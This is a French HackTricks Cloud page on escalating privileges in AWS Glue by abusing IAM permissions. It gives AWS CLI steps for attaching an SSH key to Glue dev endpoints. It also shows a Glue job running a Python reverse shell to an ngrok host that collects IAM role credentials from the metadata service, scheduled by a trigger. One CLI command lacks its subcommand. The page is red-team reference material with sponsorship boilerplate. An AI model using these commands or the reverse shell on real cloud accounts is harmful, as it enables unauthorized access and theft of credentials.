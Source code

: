 # AWS - Glue Privesc

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Les utilisateurs avec les permissions `iam:`**`PassRole` et `glue:CreateDevEndpoint`** peuvent exploiter celles-ci pour **mettre en place un nouveau point de terminaison de développement AWS Glue**, **en attribuant un rôle de service existant** avec des permissions spécifiques à ce point de terminaison.

Après la configuration, **l'attaquant peut se connecter en SSH à l'instance du point de terminaison**, et voler les identifiants IAM du rôle assigné :
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name my_dev_endpoint \
--role-arn arn_of_glue_service_role \
--public-key file:///path/to/my/public/ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Impact Potentiel :** Élévation de privilèges au rôle de service Glue spécifié.

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

Les utilisateurs avec la permission **`glue:UpdateDevEndpoint`** peuvent **modifier la clé SSH d'un point de terminaison de développement Glue existant**, **permettant ainsi l'accès SSH à celui-ci**. Cela permet à l'attaquant d'exécuter des commandes avec les privilèges du rôle attaché au point de terminaison, pouvant mener à un accès ou des actions non autorisés.
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///path/to/my/public/ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**Impact Potentiel :** Élévation de privilèges vers le rôle de service Glue utilisé.

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

Les utilisateurs avec **`iam:PassRole`** combiné soit à **`glue:CreateJob` ou `glue:UpdateJob`**, et soit à **`glue:StartJobRun` ou `glue:CreateTrigger`** peuvent **créer ou mettre à jour un job AWS Glue**, en attachant n'importe quel **compte de service Glue**, et initier l'exécution du job. Les capacités du job incluent l'exécution de code Python arbitraire, qui peut être exploité pour établir un reverse shell. Ce reverse shell peut ensuite être utilisé pour exfiltrer les **identifiants IAM** du rôle attaché au job Glue, menant à un accès non autorisé potentiel ou à des actions basées sur les permissions de ce rôle :
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**Impact Potentiel :** Élévation de privilèges vers le rôle de service Glue spécifié.

### `glue:UpdateJob`

Avec uniquement la permission de mise à jour, un attaquant pourrait voler les identifiants IAM du rôle déjà attaché.

**Impact Potentiel :** Élévation de privilèges vers le rôle de service Glue attaché.

## Références

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez**-moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
